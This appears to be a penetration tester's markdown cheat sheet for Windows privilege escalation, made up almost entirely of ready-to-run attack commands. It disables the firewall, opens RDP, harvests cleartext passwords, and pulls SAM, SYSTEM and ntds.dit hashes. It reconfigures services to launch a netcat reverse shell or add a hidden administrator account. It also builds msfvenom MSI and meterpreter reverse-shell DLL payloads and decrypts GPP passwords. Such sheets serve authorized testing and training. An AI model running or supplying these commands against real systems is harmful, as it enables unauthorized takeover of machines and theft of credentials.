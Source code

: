 # Windows Privilege Escalation

Basic Information

    systeminfo
    set
    hostname
    net users
    net user user1
    net localgroups

	# Set path:
    set PATH=%PATH%;C:\xampp

Firewall

   	netsh firewall show state
    netsh firewall show config

	# Turn firewall off

    netsh firewall set opmode disable
	
	# allow RDP
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


Cleartext passwords

    Windows autologin:
    reg query "HKLM\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon"
    
    VNC:
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    SNMP Parameters:
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    Putty:
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    	
    Search for password in registry:
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

Find files

   	dir /s /b /a | findstr filename
   	dir /s *pass* == *cred* == *vnc* == *config*
   	findstr /si password *.xml *.ini *.txt *.config
   	findstr /si pass *.xml *.ini *.txt *.config
    
Check these files

   	c:\sysprep.inf
    c:\sysprep\sysprep.xml
    c:\unattend.xml
    %WINDIR%\Panther\Unattend\Unattended.xml
    %WINDIR%\Panther\Unattended.xml
   	web.config

    System and SAM:
   	windows\repair\SAM
    %SYSTEMROOT%\repair\SAM
    %SYSTEMROOT%\System32\config\RegBack\SAM
    %SYSTEMROOT%\System32\config\SAM
   	%SYSTEMROOT%\repair\system
    %SYSTEMROOT%\System32\config\SYSTEM
    %SYSTEMROOT%\System32\config\RegBack\system
	
	Kali command to get hashes:
	samdump2 -o hashes.txt system.old sam.old

	Windows\NTDS\ntds.dit
	
Weak File Permissions
		
	accesschk.exe -qwsu "Everyone" *
	accesschk.exe -qwsu "Authenticated Users" *
	accesschk.exe -qwsu "Users" *

Reconfigure service parameters

	Unquoted service paths
	wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
    
Weak service permissions

	upload accesscheck from Sysinternals to find weak permissions
	accesschk.exe -uwcqv "currentuser" *
	accesschk.exe -uwcqv "Everyone" *
	accesschk.exe -uwcqv "Authenticated Users" *
	accesschk.exe -uwcqv "Users" *
	
	sq qc "vulnerableservicename"
		
	Note the space after the equals sign and before the quotes when using sc config below
	
	To reconfigure to send netcat reverse shell:
	sc config SERVICENAME binpath= "C:\pathtonetcat\nc.exe -nvIPADDRESS PORT -e "C:\Windows\System32\cmd.exe"
	sc config SERVICENAME obj= ".\LocalSystem" password= ""
		
	To reconfigure to add privileged user:
	sc config SERVICENAME binpath= "net user hackerman password /add"
	sc stop SERVICENAME
	sc start SERVICENAME
	sc config SERVICENAME binpath= "net localgroup Administrators hackerman /add"
	sc start SERVICENAME
	
Inside Service
	
	netstat /a
    netstat -ano
	
Insecure File/Folder Permissions

	XP and older:
	cacls filename
	
	Vista and newer:
	icacls "C:\Program Files (x86)\ProgramFolder\Subfolder"
	
	Powershell:
	Get-Acl | fl
	Get-ChildItem | Get-Acl
	
	
Check for AlwaysInstallElevated 
	
	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	
	# If you get a return code then any package will install with admin privileges, install a malicious msi to do whatever you like

	msfvenom -f msi-nouac -p windows/adduser USER=hackerman PASS=password -o add_user.msi
	
Installed software
	
	tasklist /svc
    net start
    reg query HKEY_LOCAL_MACHINE\SOFTWARE
    DRIVERQUERY

	Look in:
    C:\Program files
    C:\Program files (x86)
    Home directory of the user

	Find version of OS via files such as explorer.exe and use pev on Kali
	pev -p explorer.exe

Scheduled tasks

	schtasks /query /fo LIST /v
	
	C:\windows\tasks
	
	Windows Scheduled Task Log:
    c:\WINDOWS\SchedLgU.Txt

DLL Hijacking
	
	Examine processes, identify any which may be running as a higher privileged user
    
	Download exe and examine to find any references of DLL loading with procmon from sysinternals

	Set filters to the processname, result is NAME NOT FOUND, and Path ends with .dll
	
    Check file permissions with icacls to see if any locations listed are able to be written to by current user
	
    Create dll payload:
	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.60 lport=8989 -f dll > hijackable.dll

Add user and enable RDP

	net user hackerman hack123 /add
    net localgroup Administrators hackerman /add
    net localgroup "Remote Desktop Users" hackerman /ADD
	
	Enable RDP:
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

    If you get this error:
	"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized?
    Failed to connect, CredSSP required by server.""
	Add this reg key:
	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

	
Group Policy Preferences

	Output environment-variables:
    set
    
    Look for the following:
    LOGONSERVER=\\NAMEOFSERVER
    USERDNSDOMAIN=DOMAIN.LOCAL

    Look up ip-address:
    nslookup nameofserver.domain.local
    
    Mount SYSVOL
    net use z: \\IPADDRESS\SYSVOL

    Enter the mapped drive:
    z:

    Search for groups.xml file:
    dir Groups.xml /s
	
	Decrypt any passwords in Kali:
	gpp-decrypt encryptedpassword
